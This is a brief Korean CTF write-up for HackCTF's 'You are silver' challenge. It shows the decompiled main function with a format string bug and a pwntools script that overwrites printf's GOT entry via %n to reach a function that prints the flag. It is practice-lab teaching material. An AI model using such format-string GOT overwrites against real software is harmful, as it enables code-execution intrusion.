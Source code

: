 ```yaml
---
title: "[HackCTF]You are silver"
date: 2020-1-27
tags: [HackCTF]
categories: [HackCTF]
---
```


main에서 fsb일어난다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-30h]
  int v5; // [rsp+28h] [rbp-8h]
  int v6; // [rsp+2Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v6 = 50;
  puts("Please enter your name");
  fgets(&s, 46, stdin);
  printf(&s, 46LL);
  v5 = get_tier(v6);
  printf(v5);
  return 0;
}
```



printf(v5) -> play_game(4); 이런식으로 바꿔주면 play_game 함수 내부에서  `system("cat ./flag");`  할 수 있다.

stack offset 6번째부터 입력받으니까 %8$ln해주고 8번째 오프셋에는 printf@got로 해놓으면 앞에서 출력된만큼 스택 8번째인 printf@got를 덮을 수 있다.

stack offset 6 : %6295592 

stack offset 7 : c%8$ln + '\x00\x00'

stack offset 8 : printf@got

> exploit.py

```python
from pwn import *

e = ELF('./you_are_silver')
#p = process('./you_are_silver')
p = remote('ctf.j0n9hyun.xyz',3022)
play_game = 0x4006d7
printf_got = 0x601028

offset = 6

# printf@got -> play_game
payload = '%{}c'.format(play_game)
payload += '%8$ln'
payload += '\x00' * (8-len(payload)%8)
payload += p64(e.got['printf']) # 8
payload = payload.ljust(46,'Z')

p.sendlineafter('name\n',payload)

p.interactive()
```